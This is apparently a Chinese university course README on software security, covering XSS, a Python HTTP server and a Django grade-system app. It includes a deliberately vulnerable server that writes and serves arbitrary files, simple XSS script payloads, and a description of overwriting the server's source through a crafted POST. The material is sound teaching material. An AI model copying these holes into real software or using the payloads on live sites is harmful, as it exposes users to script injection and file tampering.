



# Software-and-System-Security-

maybe more than 200 tasks in the [list](#软件安全能力清单) ...

教学网站：http://programtrace.com/

# [软件安全能力清单](https://github.com/purplezi/Security-Development-Lifecycle) 

**要求：对照清单，上面所有的东西都掌握，一项项检测自己的能力**

# Tutorial

<details>
<summary>2020-3-11 软件安全概述+xss攻击入门 [作业：xss复现]</summary>

# 软件安全

## 三大问题

### 有什么安全问题，安全问题产生的原因

#### 二进制方面

1. 内存相关问题
   - 有明确的机制
   - 例子：**缓冲区溢出**，空指针，格式化字符串
2. 逻辑错误问题
   - 多种多样

#### Web方面

1. 典型安全问题
   - **XSS**，**SQL**注入
2. 非典型安全问题：很多
   - 主要是一些代码的逻辑错误，每个漏洞都可能有不同的原理

### 如何去发现~~问题~~ (安全漏洞) -> 漏洞挖掘技术

#### 白盒分析

- 分析**软件的源代码**去寻找问题
- 方法
   - 手工代码分析 -> 软件测试技术 / 代码review。但是软件的源代码通常比较庞大，手工分析起来很费劲
   - 自动化代码分析 -> 典型的技术：符号执行

#### 黑盒分析

- 因为白盒分析数据量大，需投入很多人工，人们寻求简单方法，和白盒分析对立的黑盒发展
- 原理：完全不管软件的内部机理 / 不看源码，把需要分析的软件当做一个黑盒子，看不见 / 根本不去看内部
- 方法：分析**表面现象**
  - 软件：通过输入和输出去猜测内部机制
  - 黑盒分析法，Fuzzing技术(模糊测试)
  
### 如果有人利用这这些安全问题，如何防御

#### 补丁

- 由于软件复杂性，要发现问题及时修补
- 方法
  - 通过**漏洞数据库**来披露和管理各种漏洞，厂家有义务定期发布软件补丁或者更新
  - 软件用户应该**及时升级**软件
  - 第三方人员，如果发现了安全问题，应该**通报**给厂家，而不是在漏洞修补以前，利用漏洞搞破坏，或者不负责任的披露漏洞

#### 防御机制

1. 寻找记录攻击的痕迹，然后分析这些数据
   - 数据的来源分为了主机层面和网络层面
2. 攻击者可能会做哪些方面的伪装，常用的伪装技术有哪些，如何去对抗伪装
   - 方法：加壳脱壳技术 / Rootkit技术

## 研究第一大方面：缓冲区溢出和XSS

- 代表了**二进制软件**和**脚本软件**（包括绝大多数Web软件都是脚本软件开发的）两大技术方向
- 缓冲区溢出虽然比XSS底层，但是更难。XSS虽然比较上层，但是相对比较容易理解
  - 计算机科学的特点就是，越底层的东西，越难
  - 开发操作系统比开发app难多了

## 二进制软件

- 计算机的底层，是CPU直接执行在内存中的机器指令
- C和C++这类编程语言开发的软件，通过编译链接过程，把程序变成CPU可以直接执行的二进制指令
- 这类软件的一个特点也是不可避免的一点：需要直接操作内存(指针)
  - 内存是所有在运行态的软件及其数据保存的地方
  - 内存分为细小的单元，每个单元有一个唯一的地址
- 二进制软件安全问题的根源
  - 所有要访问数据，必须知道数据的地址，要保存新的数据，就必须分配内存，获得可用的地址
  - 地址也是数，如果不小心计算错误，就会访问到不该访问的数据，造成数据的泄露或者破坏。
- 二进制程序的编程，有很大的难度的原因
  - 二进制文件晦涩难懂
  - CPU只能执行二进制指令(是基于物理上的电路)，所以不可能设计得机制太复杂

## 脚本软件

- 在C和C++发展成熟以后，就有人去研究如何降低编程的难度，能否避免程序员编程时直接操作内存，把需要操作内存的地方，都封装起来，屏蔽在编程语言的内部 -> 发明了脚本语言
- 概念：用C和C++这样的二进制程序开一个软件来执行一种新的程序，就是用软件来模拟CPU工作
  - 由于软件的可定制性比CPU就高多了，可以想定义什么指令就定义什么指令
  - 对象与封装：把所有需要操作内存的东西，全部封闭在执行器内部，只给程序员接口，不给程序员操作内存的机会。比如把字符串封装为string**对象**。只能调用string.len()这样的方法来操作这个对象。这样就避免了由于编程不慎造成的内存相关问题，也降低了编程难度
- 如python、java、js、web浏览器这样的脚本程序的执行器都是二进制程序。
- 解决了内存相关问题，有引出了其他的问题
  - 用户输入问题。比如XSS出现的原因如下：web程序存在一种高交互性。web是互联网时代的软件的基本框架，所以会有用户提交数据。为了网页动态的需求，开发了网页的前端脚本，比如js，直接把脚本嵌入到网页中。浏览器只要发现了script标签，就去当做脚本来执行，把网页按照程序员的定制，变的丰富多彩，变得富于变化。但是，恰恰另外一种需求，就是UGC(User Generated Conten 用户生成内容)软件，也就是网页的内容来自于用户提交的内容，比如BBS、博客、微博，电商视频网站的用户评论，都会涉及到用户提交的内容在页面上呈现。**当用户提交的内容里含有脚本**，如果直接将用户提交的内容放在页面上，那么用户提交的内容中的脚本会不会被浏览器解析执行呢？那么一个用户提交了一个脚本就可以在这个页面的所有用户主机上执行呢？用户能提交程序执行了，怎么才能不保证这个程序不是恶意的呢？前端脚本，除了渲染页面元素这样的功能，还有获得用户的输入跳转页面到其他地址等等丰富的功能。

## 实验

### 编写一个简单的html文件

- 要求只要有一个表单，用户就可以在表单中输入数据，向服务器提交。
    
    ```html
    <html>
    <body>
    <form method="post">
            <input type="text">
            <button>提交</button>
        </form>
    </body>
    </html>
    ```

- 保存为index.html文件，用浏览器打开显示如下
  
  

### 搭建一个web服务器

- 如果这个html是放在web服务器上，用户输入了数据，点击提交，浏览器就会把编辑框中的数据封装为一个POST请求，发现服务器。服务器会把这个数据发给后端脚本来处理。
- 通过定义form的属性来指明需要哪个脚本文件来处理
  - 比如PHP程序，他有一个POST超级变量，当用户提交了数据以后，对应的php脚本的post变量就是用户提交的数据
  - 假设服务器现在把用户提交的数据放在user_input.html的body标签中。然后保存在服务器文件的根目录中。当有网站的用户访问 http://xxxx.com/user_input.html 的时候，就会看到刚才那个表单用户提交的内容。当然实际的情况是这两个用户可能不是同一个用户，于是A用户提交的内容B用户就访问到了。
  - 当服务器脚本是原封不动的把用户输入的数据写到html里时，如果用户提交的数据中包括`<script>标签`，就会被执行。比如alert函数，弹出一个消息框，`<script>alert('xss attack')</script>`；比如给window.location.href赋值，能让用户莫名其妙的跳转到另外一个网站
- 最简单的实验环境
  - 在vscode中，安装一个php插件，然后编写一个简单的php脚本，调试运行这个脚本
  - F5 vscode会自动选择脚本运行的方式，把用户的表单输入写入到html文件
  - 通过浏览器访问这个文件html文件，这就是一个最简单的xss运行环境了。
- 实际的XSS漏洞可能很复杂，比如还会有数据库、登录等。另外，编程语言也不限于php，java、python也可以

### 问题

- 当编写的代码中出现中文，在网页上显示乱码
  - 编码问题，head标签里通过meta指定

### [实验结果](./hw-0x01-XSSAttack/README.md)

</details>

---

<details>
<summary>2020-3-18 python搭建简单的http服务器端 + xss攻击 [无作业]</summary>

# 使用python内置的库开发一个基本的http服务器端

- [测试代码](./readmeimg/2020-3-18-img/httpserver.py)
- 使用python原生的cgi和http.server两个库运行的一个简单的http服务器程序
  - 因为没有使用第三方库，所有不需要使用pip安装依赖
  - 运行比较简单
  - 公共网关接口（Common Gateway Interface，CGI）是Web 服务器运行时外部程序的规范，按 CGI 编写的程序可以扩展服务器功能

## 讲解代码

```python
# -*- coding: utf-8 -*-

import sys
import cgi
from http.server import HTTPServer, BaseHTTPRequestHandler

class MyHTTPRequestHandler(BaseHTTPRequestHandler):
    field_name = 'a'
    form_html = \
        '''
        <html>
        <body>
        <form method='post' enctype='multipart/form-data'>
        <input type='text' name='%s'>
        <input type='submit'>
        </form>
        </body>
        </html>
        ''' % field_name

    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        try:
            file = open("."+self.path, "rb")
        except FileNotFoundError as e:
            print(e)
            self.wfile.write(self.form_html.encode())
        else:
            content = file.read()
            self.wfile.write(content)

    def do_POST(self):
        form_data = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={
                'REQUEST_METHOD': 'POST',
                'CONTENT_TYPE': self.headers['Content-Type'],
            })
        fields = form_data.keys()
        if self.field_name in fields:
            input_data = form_data[self.field_name].value
            file = open("."+self.path, "wb")
            file.write(input_data.encode())

        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(b"<html><body>OK</body></html>")


class MyHTTPServer(HTTPServer):
    def __init__(self, host, port):
        print("run app server by python!")
        HTTPServer.__init__(self,  (host, port), MyHTTPRequestHandler)


if '__main__' == __name__:
    server_ip = "0.0.0.0"
    server_port = 8080
    if len(sys.argv) == 2:
        server_port = int(sys.argv[1])
    if len(sys.argv) == 3:
        server_ip = sys.argv[1]
        server_port = int(sys.argv[2])
    print("App server is running on http://%s:%s " % (server_ip, server_port))

    server = MyHTTPServer(server_ip, server_port)
    server.serve_forever()

```

### 运行代码

- 使用`python httpserver.py`或者`py httpserver.py`
  - 使用vscode调试代码，在同目录下会自动生成一个`.vscode`的目录，目录下生成`launch.json`文件，配置如下
        
    ```json
    {
        // 使用 IntelliSense 了解相关属性。 
        // 悬停以查看现有属性的描述。
        // 欲了解更多信息，请访问: https://go.microsoft.com/fwlink/?linkid=830387
        "version": "0.2.0",
        "configurations": [
            {
                "name": "Python: 当前文件",
                "type": "python",
                "request": "launch",
                "program": "${file}",
                "console": "integratedTerminal"
            }
        ]
    }
    ```

- 在浏览器的访问网址为`127.0.0.1:8080/a.html`
  
  

### 主要的父类与子类

#### http methods

- [http请求下的多种methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)
  - 通常使用得最多的，是 GET 和 POST
  - 直接在浏览器中输入链接，浏览器拿到地址以后，默认是采用 GET 方式向服务器发送请求，GET 方式最常见。
  - 表单使用的 post 方法提交数据 `<form method='post' enctype='multipart/form-data'>`
  - 通常来说，从服务器获取数据，使用 get 方法，向服务器提交数据，使用 post 方法
  - 其他的方法，在现在的web应用程序中，用到的很少

#### MyHTTPServer类

- MyHTTPServer类，是继承自原生的HTTPServer，重写 init 函数，增加了打印输出语言
- 然后直接调用父类 HTTPServer 的 init 函数传递了服务器运行需要的地址、端口等参数，我们的监听地址和端口是 0.0.0.0:8080

  ```py
  class MyHTTPServer(HTTPServer):
      def __init__(self, host, port):
          print("run app server by python!")
          HTTPServer.__init__(self,  (host, port), MyHTTPRequestHandler)
  ```

#### MyHTTPRequestHandler

- MyHTTPRequestHandler 类，这个是 HTTPServer 的回调，用来处理到达的请求，也就是 0.0.0.0:8080 上有任何的 HTTP 请求到达时，都会调用 MyHTTPRequestHandler来处理
  - MyHTTPRequestHandler 直接继承自 BaseHTTPRequestHandler
  - 重写了父类的 do_GET和do_POST两个方法
  - 这个HTTP请求的处理类是整个代码的主体，也是出问题的地方
  - 在 python 的 BaseHTTPRequestHandler 类中 ，do_XXX函数，就是处理对应的客户端请求的函数。代码指定了 MyHTTPRequestHandler 来处理 http 请求，那么当用 GET 方法请求，就会调用 do_GET，POST 方法请求，就会调用 do_POST函数
  - 浏览器所发送的数据包里包括请求类型， 在 http 的 headers里，会说明方法。
  - 这是python最基本的http 服务器的方式

### 其他处理

- 通常，一个静态的http服务器，这里的路径就是 http 服务器根目录下的文件，动态服务器可能是文件和参数，或者是对应其他服务器后台的处理过程
  - self.path 是这个请求的路径
  - 例如 http://127.0.0.1:8080/a.html 。其中 http://127.0.0.1:8080是协议服务器地址和端口。/a.html就是路径
  - 例如 http://127.0.0.1:8080/a.php?p1=x 。指定由 a.php 来处理这个请求，参数是 p1=x 。问号后面是参数，可以有多个
- 一般来说，如果读的文件不存在，应该返回404
  - self.send_response(200) 按照协议应该是404
  - 则这里的处理为 如果指定的文件不存在，还是返回200，表示请求路径是正确的，可以处理，然后返回一个默认的页面。这个页面是 form_html的变量，在FileNotFoundError异常处理过程中写回
  - self.wfile 和 self.rfile 对应 http 响应和请求的 body 部分
- GET处理完成以后，浏览器就拿到了 200 状态的  "Content-type" 为 "text/html" 的 form_html
- 在浏览器刷新是重复上一次的POST请求，所以会提示是否要重新提交表单

### 调试运行

- 在 def do_GET 下断点，刷新浏览器，代码就会断点命中中断。
- 结合浏览器，抓包看看 http 请求和响应的数据格式 （用抓包器或者浏览器的调试模式观察）

#### 浏览器调试模式

- 打开浏览器的调试模式(chrome > 菜单 > 更多工具 > 开发者工具)
- 在sources这个标签下看到服务器向浏览器返回的数据，即 form_html 变量
  - 这一段 html 浏览器渲染出来，就是那个带一个编辑框的表单- 表单指定了使用post方式向服务器提交数据
  
    

- 在network tab里可以看到完整的请求响应过程
  
  

  - 完整的网络数据，其中 header 里就说了 GET 或者 POST 、返回的状态码200等等
    
    

- 在表单中填入数据，点提交按钮，然后服务器的 do_POST 函数被调用。通过 cgi.FieldStorage解析了客户端提交的请求，原始的请求的头部在self.headers。body部分在self.rfile。解析完成以后放到 form_data变量里，其中 form_data['field_name'].value 是在编辑框中填入的数据
  ```py
  form_data = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={
                'REQUEST_METHOD': 'POST',
                'CONTENT_TYPE': self.headers['Content-Type'],
            })
  ```

### 使用场景

- 通常，一个服务器会根据业务逻辑处理用户提交的数据，比如用户发表的商品评论，比如在线教学系统中填入的作业一般会写入数据库。但是这些数据，在某些情况下又会被显示出来，比如其他用户查看别人的商品评论的时候，比如老师查看学生的作业时。
- 为了模拟这个过程，简化了一下，没有用户系统，也没有数据库，直接写入了 path 对应的文件。
- 处理用户提交，写入文件
  ```py
  fields = form_data.keys()
  if self.field_name in fields:
      input_data = form_data[self.field_name].value
      file = open("."+self.path, "wb")
      file.write(input_data.encode())
  ```
  - fields = form_data.keys()是获取表单中的键值对，因此使用.value得到输入的值：这里获得是对应的是form中input的name `<input type='text' name='%s'>`
  - 表单以变量名变量值的方式组织，input的name相当于变量名，填入的数据就是变量值
  - python的cgi.FieldStorage将form组织为python的dict数据类型，所以可以通过  form_data['field_name'].value 获得所填入的数据
- 如果写入成功，就返回一个 200 状态的 OK 
  ```py
  self.send_response(200)
  self.send_header("Content-type", "text/html")
  self.end_headers()
  self.wfile.write(b"<html><body>OK</body></html>")
  ``` 

## 漏洞

- 如果向网页中填入了 123 ，那么123被写入了a.html文件。执行完成后，同目录下会多一个a.html，内容为123。然后下次再访问 http://127.0.0.1:8080/a.html 时，在浏览器地址栏里回车。由于这个时候a.html已经存在了，所以是运行的部分是
  ```py
  else:
      content = file.read()
      self.wfile.write(content)
  ```
  - 会直接把文件内容会写给浏览器
  - 这里是在简化模拟用户提交数据 > 存入数据 > 其他用户获取这个数据的过程
  
  

- XSS漏洞
  - 再访问一个不存在的页面，比如b.html，又会出现那个默认的form。这时输入`<html><body><script>alert('XSS')</script></form></body></html>`，然后在访问b.html的时候，整个页面被载入 script 在浏览器上执行，也就是**用户提交的数据被执行了**

    

  - 重新开一个页面，在c.html中填入`<html><body><script>window.location.href='http://by.cuc.edu.cn'</script></form></body></html>`。下次再访问c.html的时候。页面跳转了。`window.location.href='http://by.cuc.edu.cn'` 这段脚本的功能是实现了跳转
        
- 理论上，任何的js都是可以被执行的。js可以实现非常丰富的功能。比如可以骗取用户扫码、支付，实际到黑客的账户。如果是没有基本防御措施的网站，这段会被放进服务器数据库里，然后别人提交了数据就自动跳转到这个网站。比如有一个商品A，用户在评论里输入了一段js代码。如果服务器不做处理直接保存。后面的用户访问商品A、看评论，前一个用户输入的代码就会在其他用户的页面上执行。

### Furthermore

- 如果大家在浏览器中访问 http://127.0.0.1:8080/httpserver.py ，则在sources中显示全部完整的源代码。由于服务器没有做任何过滤，只要是存在的文件，就发送给客户端
  - 现在黑客可以知道我整个后台的逻辑了。
  - 如果还有一些配置文件，比如数据库地址和访问口令等。那就更严重了
  - 更严重的是，黑客甚至可以注入后端代码。由于我们是回写到文件，可以构造一个http post请求，把httpserver.py文件改写了。但是构造这个请求用浏览器就不行了，需要采用curl等更基础的工具裸写post请求发送给服务器的
- 在调试工具的 elements tab，由于后台只处理名为a的表单项写入文件，所以我们需要把input的把 name="%s" 改为 name="a" 再提交。改为以后，同时在提交框中输入‘hahaha’提交。此时httpserver.py，它变为'hahaha'，只是注入一个hahaha 服务器就挂了，再也跑不起来了。
  
  

- 所以，这是一个及其简单，但是漏洞百出的web服务器。这就是不做任何过滤，直接写入数据的危害。

## 参考资料

- [http methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)

</details>

---

<details>
<summary>2020-3-25 Django搭建简易教务系统web应用 [作业：用原始方法搭建简易教务系统]</summary>

sql注入：`web程序开发和web程序`非常常见的一种漏洞

# web程序的开发

## 客户端(浏览器)和服务器

用户使用**浏览器**访问**服务器**，服务器在云端(我们看不见)，只有一个域名对应的IP地址。浏览器通过**发送请求**到服务器，服务器收到请求以后返回响应。其中数据的发送和接受的底层是计算机网络。对web程序来说，主要关心`Requests and responses(一收一发)`的过程

### 实验分析

- 使用抓包器，抓取一次 web 访问过程中的数据包，分析一下 Requests and responses 数据的数据包格式，可以看到在 tcp 数据包的 payload 部分是 http 协议数据包，又分为了 headers 和 body 等部分
- 浏览器发送的 Request ，最核心的部分是一个 url ，就是通常说的网址。比如`https://www.baidu.com/index.php?tn=request_1_pg&ch=1`，其中`/`前的部分，是主机地址，被解析为 ip 地址；第一个`/`后的部分为路径和参数，会对应服务器上的文件或者功能。服务器处理完毕返回 response ，一般是一个html格式的文本
- 浏览器，会直接把html渲染为我们所看到的页面的不同样式。
- html有自己专门的语法，其格式是以标签树的结构组织的，又可以嵌入js和css：js用来要求浏览器执行动态的效果，或者根据css的配置，对各种html的内部的标签和元素，显示不同的样式。

    

  - 学习html和js最好的工具就是chrome的调试模式。所以必做的实验，就是用chrome的开发者工具的 `elements`、`sources`和`network`几个工具，分析网页

### 开发一个web程序的基本过程

使用python内置的库开发一个基本的http服务器端
- 不是框架，是比较原始的http请求和响应过程。
- 涉及Requests and responses、html、表单、get、post、url等基本概念
- 但现在的web程序一般都比较复杂，会使用数据库，而且一般会有很多功能和页面

**开发web程序的基础架构 / 框架(主流开发技术)**
- 把web程序开发的一些底层的东西事先处理，开发者只需要关注功能的构建
- 各种web后端编程语言，比如java、php、python都有自己的框架。比如python现在最火的框架是[Django](https://docs.djangoproject.com/en/3.0/)，然后是flask。
  - 框架第一，把web开发流程变成了`mvc`结构。第二，提供了非常多丰富的web开发过程中需要使用的`库`。
  - 框架处理了最基本的请求响应过程：把请求映射到了`处理函数`，程序员就不用管很多麻烦的底层过程，只需要专心业务逻辑的处理。
  - 框架就是这些基本请求的函数的`封装`的整合

#### django

##### 基本使用

- 安装
  ```
  pip install Django
  python -m pip install Django
  ```
  - 如果pip安装速度很慢，大家可以修改pip使用的镜像源，改为国内的源
- 构建一个基于Django的基本框架的web应用程序。
  ```
  django-admin startproject mysite
  cd mysite
  python manage.py startapp polls
  python manage.py runserver
  ```
- 访问 http://127.0.0.1:8000/

  

  - 在命令行里可以看到服务器的打印输出，表示服务器收到了 request
  - 在浏览器看到的页面就是框架自动返回给大家的response
  - 说明request和response，请求相应的处理过程已经搭建起来

##### 简单的教务管理系统

- 教务管理系统肯定要用到**数据库**
- mvc：编写大型程序的时候，一定要做到mvc分离
  - m数据模型，我们要先建立基础的底层的数据结构
  - c控制，处理用户输入，构建每个用户输入对应的处理函数
  - v视图，在底层m数据模型的基础上，绘制用户界面
  - 比如贪吃蛇游戏，最先做的事情是使用链表来保存蛇和食物的相应的数据，写一些处理这个数据的函数，供上层的c和v来调用，这个叫做**封装**。这是基本的编程思想，和正确的工作组织流程。
- mvt:一个复杂的大型web程序，其实底层思想还是mvc，只是换了个名字，叫mvt，其中t是页面模板
- 写Django或者任何框架的程序，主要就是写三大部分：第一，数据模型models；第二，views和url，是用户请求对应的处理程序；第三，前端页面模板，即处理完的结果如何显示的问题
  - 其中url部分，又称为路由。把用户请求的url，对应到处理函数的过程。Django的处理函数，有一个专门名称，叫views。其基本过程就是框架收到用户的request，其中有URL。框架根据urls.py中的配置，将用户请求对应到一个处理函数，一般在views.py中。
  - views.py中的函数，参数就是request对象，Django中是HttpRequest类，然后views函数需要返回一个HTTPResponse类型的request。Django把这个reqeust变化为http协议的request数据包，返回给浏览器。
  - 一般在views的处理过程中，会访问数据库，也就是models。比如底层操作数据库是用sql语句，models把底层的数据库操作的sql全部封装为了对象化的处理。而最原始的web程序一般程序员会拼装sql语句，但是在Django中不用。这种底层数据的封装，称为orm(Object-relational Mapper)。

##### 编程

现在使用的数据库分两种：关系型数据库 & 非关系型数据库

关系型数据库的基本结构是表，关系其实是指表与表之间的关系。其中教务系统这种信息管理类的软件，一般是使用关系型数据库

首先就是设计数据库表结构

```python
class Course(models.Model):
    name = models.CharField(verbose_name='课程名',  max_length=100)
    number = models.IntegerField(verbose_name='编号', default=0)
    summary = models.CharField(verbose_name='摘要', max_length=500, null=True)


class Student(models.Model):
    class_name = models.CharField(verbose_name="班级", max_length=100, blank=True,null=True)
    phone_number = models.CharField(verbose_name='手机号', max_length=11,null=True)

class Score(models.Model):
    course = models.ForeignKey(Course, verbose_name='课程', on_delete=models.CASCADE, related_name='students')
    student = models.ForeignKey(Student, verbose_name='学生', on_delete=models.CASCADE, related_name='my_courses')
    score = models.FloatField(verbose_name='成绩',  null=True)
```

- 一个教务系统，需要表为：学生信息 课程信息 成绩信息
- 表中的每个记录，都有一个唯一的编号，称为主键。而外键是其他表中主键记录。通常我们用外键来记录表和表的关系。
- 其中成绩表就是学生和课程的关系，也就是选课。成绩表中的一个记录，表示某个学生，选了某门课程。成绩，是学生与课程的“关系”
  - 所以成绩表需要记录的就是某学生某门课的分数。而学生和课程都有专门的表来记录，我们无需在成绩表中重复记录多余的信息，只需记录id
  - 这个其他表中主键id，就是外键，所以外键体现了关系。
  - 而每个表中的主键，这里没有明确说明。系统会自动增加一个id字段。这个id每次插入记录时自动增加。
  
Django把建表这种基本操作变成了python中的类的定义，所定义的这些类，直接继承models.Model。即程序员只需要写好这个models.py文件，所有的建表的操作框架就可以完成。大家可以建一个app ，比如叫 edu_admin ，命令为`python manage.py startapp edu_admin`
  - `code .`可以用vscode创建一个新窗口并且打开当前目录
  - 将上述内容直接放入edu_admin中的models.py，然后把这个表结构，真实的写入到数据库中，也就是create table的过程，在django中称为`migrate`
  - 打开 mysite的 settings.py，在 INSTALLED_APPS 这里增加一个 edu_admin ，表示 edu_admin 这个是这个site的一个app。之前startapp命令只是创建了app，必须要把app写入到这里，这个app才会被纳入到站点功能中

    

  - 然后在命令行下执行 `python .\manage.py makemigrations` 和 `python .\manage.py migrate`，结果如下，同时会增加一个 `db.sqlite3`

    

    - makemigrations成功的标志是在app的目录下有migrations目录

到此文件，数据库表结构就建立完成了。
- Django这里默认使用了sqlite这种简单的文件型数据库。这种数据库的好处是一个文件来保存数据的所有信息，适合轻量级小规模的应用，但是效率和容量都有效，一般用在开发调试环境，不用在生产环境
- 为了验证Django真的建立了表，下载一个[sqlite](https://www.sqlite.org/download.html)的客户端软件，查看数据库的表结构
  - Windows下载`sqlite-tools-win32-x86-3310100.zip`，Linux直接`apt install sqlite3`
  - 把sqlite.exe加入在PATH环境变量或者放在db.sqlite同一个目录，然后执行`sqlite3.exe db.sqlite3` (database的路径不能有中文)
  - 进入到sqlite的命令行以后执行`.table`命令，可以看到所有的表，其中这三个表是在models中定义，其他表是Django自己要用的
  - 可以执行sql语句，比如插入一条记录，如 insert 和 select 可以成功，说明表是好的

    

## 作业

在不使用Django的情况下，使用更底层的pyhton的[sqlite](https://docs.python.org/3/library/sqlite3.html)库来编程操作数据库。

在httpserver.py的基础上，继续编写漏洞。写两个页面，一个是教师录入成绩页面，一个是学生查询成绩页面。教师录入成绩页面表单有三个字段，课程id，学生id，成绩。录入提交以后，httpserver调用sqlite库使用sql语句写入数据库。然后是学生查询成绩表单，学生输入学生id，课程id，httpserver使用sql语句查询成绩后返回给用户。这里不需要做登录功能，课程也用直接输入id而不是下拉菜单的方式，或者其他选择的方式，而是直接输入id，为了体验最原始的web的开发过程

### [实验结果](./hw-0x02-Web%20Application%20(%20Easy%20Educational%20Administration%20System)/README.md)

</details>

---

<details>
<summary>2020-4-1 继续Django的web程序设计和SQL注入 [无作业]</summary>

# web程序设计和SQL注入

###### 工程目录


###### 数据库edu_admin回顾

使用Django这种框架编程，第一步是定义模型，Django会自动把定义好的模型转化为数据库表结构，这种方式称为 ORM

在models里定义了三个类，然后执行了生成migrations和migrate，即数据库的表就建立完成，以后每次修改了models，都需要执行makemigrations和migrate，才能将修改结果对应到数据库中

## 编写view

views是Django功能实现应用功能的地方。如果想写一个动态的页面，就在views中定义一个函数。这是最基本的方法。在此基本的方法上还可以有高级的，系统内置的一些高级的数据库增删改查的方法

最基本的views函数，是收到一个HttpRequest类型的参数，需要返回一个HTTPResponse类型的返回值，和http协议对应。

在edu_admin中的views.py写入如下内容，这个函数就是一个基本的 “处理请求，返回响应”的过程

```python
from django.http import HttpResponse
def index(request):
return HttpResponse('<html><body>OK</body></html>')
```

需要把这个views，对应到一个路径上，也就是客户端需要调用这个views函数对应的功能。因为一个实用的web app只有一个views是不够的，可能有很多很多views，然后需要把这些views对应到不同的url上，这样客户端才能访问。

这个工作，是urls.py来完成的。在 edu_admin 中建一个urls.py文件，写入如下内容
```python
from django.urls import path
from .views import *

urlpatterns = [
     path('index', index),
]
```

然后需要在`主urls.py`，也就是 mysite 的urls.py中包括这个url配置。这是为了适应可能有多个Django app共同工作的情况，比如这里的edu_admin是一个app，polls又是一个app
```python
path('edu/',include('edu_admin.urls')),
```

## 运行网站，查看效果

执行命令 `python manage.py runserver` 命令，也可以在vscode中调试运行

即在运行调试的时候，在调试页面，生成一个 lanuch.json ，选python Django。默认配置，生成的launch.json如下所示。lanuch.json的作用就是告诉vscode启动程序运行,任何一种编程语言和平台，都会有  lanuch.json。
  
  

  

访问` 127.0.0.1:8000`，这个是404页面，说明我们访问的url路径并不存在
  
  

只有 edu/ 和admin/两个路径存在。正如我们在 urls.py中配置的一样，访问 http://127.0.0.1:8000/edu/index
  
  

成功访问说明我们urls和views配合工作成功：用户在浏览器中输入路径，django把这个url对应到一个views函数上，views函数处理HttpRequest，返回HttpResponse

把url对应到一个views函数的过程，叫“路由”。注意，这个路由不是路由器的那个路由。路由器的路由是IP层的IP数据包分发功能。web框架的路由只是借用了这个概念，引申为 web 程序中 url 和处理函数的对应关系
- 注意一个url是可以带参数的，views函数也是可以带参数的。如下代码中，pk就是参数，而且只允许整数。路由系统会把这个参数赋值传递给views函数的pk参数。
  ```python
  # edu_admin/urls.py 的urlpatterns修改为
  urlpatterns = [
    path('index/<int:pk>',index),
  ]

  # edu_admin/views.py
  def index(request,pk):
    return HttpResponse('<html><body>Hello World %d </body></html>' % pk)
  ```

  - 在浏览器中输入`127.0.0.1/edu/index/1`，得到的结果如下：

    

## 在views中访问数据库

### 修改views.py

```python
from django.shortcuts import render
from django.contrib.auth.decorators import login_required
from django.http import HttpResponse

from .models import Score

def index(request, pk):
    return HttpResponse('<html><body>hello world %d </body></html>' % pk)

# Create your views here.

@login_required
def my_score(request):
    result = Score.objects.filter(student=request.user)
    return render(request, 'score.html', {'result': result})
```

### 代码解释

- 先从models中导入模型类Score
  ```
  # edu_min/views.py
  from .models import Score
  ```
- 然后调用这个模型类的objects的filter方法完成了一次sql select。filter函数的参数是就相当于查询的过滤条件。我们要查询的是 student 为当前登录用户的Score表的记录：`Score.objects.filter(student=request.user)`。Django中，当前登录用户，就在request对象的user属性中

### 修改模型

views写了还不够，我们还需要修改一下模型。Django是有默认的用户管理系统的，用户相关的数据库表结构其实Django已经建立好了，但是我们这里用了student表来作为系统用户。所以我们要告诉Django不要用系统默认的用户模型了，用Student

首先在 models.py中 导入`from django.contrib.auth.models import AbstractUser`，这个是Django默认的用户管理的数据库模型，然后继承修改自`class Student(AbstractUser):`

AbstractUser已经有很多数据库字段，比如密码肯定是需要以某种方式保存到数据库中的。在AbstractUser的基础上，扩充几个要用的字段就可以了。修改模型为：

```python
from django.db import models

# Create your models here.

from django.contrib.auth.models import AbstractUser

class Course(models.Model):
    name = models.CharField(verbose_name='课程名',  max_length=100)
    number = models.IntegerField(verbose_name='编号', default=0)
    summary = models.CharField(verbose_name='摘要', max_length=500, null=True)

    def __str__(self):
        return self.name

class Student(AbstractUser):
